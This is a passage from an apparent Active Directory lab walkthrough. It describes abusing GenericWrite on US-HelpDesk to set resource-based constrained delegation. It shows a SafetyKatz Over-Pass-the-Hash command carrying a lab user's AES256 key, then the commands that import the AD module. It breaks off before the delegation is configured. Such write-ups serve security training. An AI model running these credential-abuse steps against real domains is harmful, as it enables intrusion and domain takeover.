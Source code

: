 ## Abuse the Write permissions to access that computer as Domain Admin

With the `GenericWrite` permission on `US-HelpDesk`, `mgmtadmin` can set **Resource-based Constrained Delegation** for `us-helpdesk` for the RDP machine.

First, use `mgmtadmin` credential to perform Over-Pass-the-Hash:

```
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /domain:us.techcorp.local /user:mgmtadmin /aes256:32827622ac4357bcb476ed3ae362f9d3e7d27e292eb27519d2b8b419db24c00f /run:powershell.exe" "exit"
```

![picture 31](images/779d280637a5ee02ad31bcd3fddf9deee358292249d04d6bfc1bbb2f91808e47.png)  

<br/>

Use AD Module to configure RBCD on `us-helpdesk` the RDP machine `student64`:

```
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll; Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
